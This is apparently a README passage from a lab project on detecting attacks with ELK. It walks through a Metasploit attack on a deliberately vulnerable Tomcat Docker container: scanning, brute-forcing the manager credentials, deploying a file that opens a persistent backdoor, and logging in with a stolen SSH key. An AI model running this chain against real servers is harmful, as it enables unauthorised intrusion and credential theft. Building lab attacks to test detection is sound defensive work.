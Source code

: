 # Execute Metasploit Attack to Tomcat Server

- Enter inside Metasploit container: 
`docker exec -it metasploit bash`

- Run pre-exploit script to scan target system and identify vulnerabilities: 
`./scripts/check-pre-exploit.sh vulnerable-mts 8080`
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

- Run first exploit to get tomcat manager dashboard credentials: 
`./msfconsole -r ./scripts/tomcat_mgr_login.rc 8080 vulnerable-mts`
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

- Run the second exploit to deploy a malicious file in the tomcat server which opens a persistent backdoor on the target system: 
`./msfconsole -r ./scripts/tomcat_deploy_attack.rc 8080 vulnerable-mts tomcat tomcat`
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan, "tomcat" and "tomcat" are username and password credentials you get ith the previous step)_

- Save the ssh-key given in ouput (i.e: "/root/.msf4/loot/20230318162758_default_172.30.0.6_id_rsa_776480.txt")

- Run the script to enter target system (ubuntu container): 
`./scripts/ssh-connection.sh <key> vulnerable-mts`
_("vulnerable-mts" arg is the docker address of the target container, <key> args is the ssh key you get with the previous step)_


![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/preexploit.png>)

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/exploit1.png>)

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/exploit2.png>)